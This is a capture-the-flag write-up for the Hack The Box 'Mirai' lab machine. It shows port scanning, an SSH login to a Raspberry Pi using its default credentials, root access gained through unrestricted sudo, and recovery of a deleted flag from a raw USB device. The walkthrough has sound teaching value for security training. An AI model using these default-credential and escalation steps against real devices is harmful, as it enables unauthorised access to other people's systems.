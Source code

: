 ## Default Information
IP Address: 10.10.10.48\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.48    mirai.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.48 --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-11-17 16:32:28 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 1940/tcp on 10.10.10.48                                   
Discovered open port 80/tcp on 10.10.10.48                                     
Discovered open port 22/tcp on 10.10.10.48                                     
Discovered open port 32414/udp on 10.10.10.48                                  
Discovered open port 53/tcp on 10.10.10.48                                     
Discovered open port 32400/tcp on 10.10.10.48                                  
Discovered open port 32469/tcp on 10.10.10.48                                  
Discovered open port 53/udp on 10.10.10.48
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each TCP port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0) | Open |
| 53	| domain | dnsmasq 2.76 | Open |
| 80	| HTTPd | lighttpd 1.4.35 | Open |
| 1773	| upnp | Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50) | Open |
| 32400	| httpd | Plex Media Server httpd | Open |
| 32469	| upnp | Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50) | Open |

Afterwwards, we will use Nmap to enumerate the services operating behind each of the UDP ports using the open ports from masscan

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 53	| domain | dnsmasq 2.76 | Open |
| 5352	| mdns | DNS-based service discovery | Open |

From the nmap output, we are able to find 2 interesting HTTP ports, namely port 80 and port 32400. Port 80 is the normal port used for all HTTP services, while port 32400 is
used to host the media server, which is worth to look into

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://mira.htb:80

```
http://10.10.10.48:80/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
http://10.10.10.48:80/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48:80/admin/]
http://10.10.10.48:80/swfobject.js         (Status: 200) [Size: 61]
```
We will also tried to find virtual hosts on http://sense.htb, but we were unable to find any vhosts.

Next, we will try to find the endpoints that are accessible from http://mira.htb:32400. However, there were a lot of false positives and so, I will not be listing them down 
below. Let's just first move on to see if we can find any flags without using http://mira.htb:32400.

### Web-content discovery
Looking at port 80, both http://mirai.htb:80/swfobject.js and http://mirai.htb:80/_framework/blazor.webassembly.js did not provide any meaningful output. It only shows a short 
text regarding Pi-hole

```
var x = "Pi-hole: A black hole for Internet advertisements."
```

However, http://mirai.htb:80/admin/ brings us to the admin page for Pi-hole, and we are also able to access the login page. What is interesting about the login page is that it 
only allow us to input the password, but not the username. This gives me the idea that this page might be using a default username for all the users, and so it might possibly be
using a default password as well.

![mirai admin page](https://github.com/joelczk/writeups/blob/main/HTB/Images/Mirai/admin_login.png)

Let's first do some research into Pi-hole. Pi-hole is actually a DNS sinkhole that prevents any unwanted content without installing any client-side applications. We also know thatna password will be randomly generated on the first installation and displayed to the user. Afterwards, the password cannot be retrieved. Apart from that, we also know that Pi-hole is commonly used for Raspberry Pi.

## Exploit
Let's first try to use the default password _raspberry_ to login to Pi-hole. However, it seems that this is not the password for Pi-hole. We remember that we this machine has an SSH terminal on port 22 during our enumeration. Let's try to use the default credentials for Raspberry Pi on the SSH terminal, and it looks like we have found the correct credentials for the SSH terminal.

```
┌──(kali㉿kali)-[~]
└─$ ssh pi@10.10.10.48        
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 
pi@raspberrypi:~ $ 
```
### Obtaining user flag
```
pi@raspberrypi:~/Desktop $ cat /home/pi/Desktop/user.txt
<Redacted user flag>
pi@raspberrypi:~/Desktop 
```

### Privilege Escalation to root
Checking the privileges on the user _pi_, we realize that _pi_ is able to execute any commands as a root user
```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```
Now, let's escalate the privileges to a root user
```
pi@raspberrypi:~/Desktop $ sudo bash
root@raspberrypi:/home/pi/Desktop# whoami
root
root@raspberrypi:/home/pi/Desktop# 
```
### Obtaining root flag
Let's now retrieve the root flag. However, we realize that the current root.text file is not the flag that we are looking for
```
root@raspberrypi:~# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# 
```

Firstly, let us find where the USB stick is mounted to using _df -h_. From the output, the USB stick is mounted to /media/usbstick.

```
root@raspberrypi:~# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  8.8M   92M   9% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
```

Next, navigating to /media/usbstick, we discover a _damnit.txt_ that tells us that we would need to recover the files off the USB stick

```
root@raspberrypi:~# cd /media/usbstick
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

From the earlier _df -h_ command, we know that the USB stick is mounted to /dev/sdb. Using the cat command, we are able to retrieve the root flag.

```
root@raspberrypi:/dev# cat sdb
�|}*,.�▒����+-���<Redacted root flag>
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/dev# 
```
